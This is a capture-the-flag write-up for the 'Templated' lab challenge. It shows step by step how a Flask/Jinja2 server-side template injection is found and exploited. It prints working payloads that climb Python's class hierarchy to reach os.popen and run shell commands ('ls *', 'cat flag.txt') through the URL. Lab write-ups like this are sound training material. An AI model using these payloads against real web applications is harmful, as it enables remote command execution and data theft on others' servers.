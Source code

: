 ### Starting
For the **Templated** challenge, start an instance and visit the IP displayed.
The description **Can you exploit this simple mistake?** suggests that there is a simple mistake to be exploited.

On visiting the IP, we are greeted with the following page
![[Screenshot 1.png]]
The page displays that it is proudly powered by **Flask/Jinja2**
On inspecting the source code and the requests, there is nothing useful that is found.
The title **Templated** and **Flask/Jinja2** both hint towards Server Side Template Injection (SSTI).

So lets try template injection via the URL. Using `{{7 * '7'}}` as a payload the URL became http://142.93.35.92:31572/{{7*'7'}}
On visiting this URL, we are greeted with the following page.
![[Screenshot 2.png]]
We can see that the payload has been evaluted as '7777777'. This confirms that a template injection vulnerability exists in the site.
A good article on [SSTI with Jinja2](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) can be found here.
And [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) also has lots of payloads for various languages and the templating engines used in them including Jinja.

So we can use **MRO** function to display classes which will useful in creating the specific payload for the website.
Payload to list files in the current directory
`{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('ls%20*').read()}}`
The URL will look like
`http://142.93.35.92:31572/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('ls%20*').read()}}`
![[Screenshot 3.png]]
We can see that flag.txt exists in the current folder.
So we will replace `ls *` with `cat flag.txt` in the payload.
Payload to print flag
`{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('cat%20flag.txt').read()}}`
The URL will look like
`http://142.93.35.92:31572/%7B%7B''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('cat%20flag.txt').read()%7D%7D`
And with this we will have the flag printed on the screen.
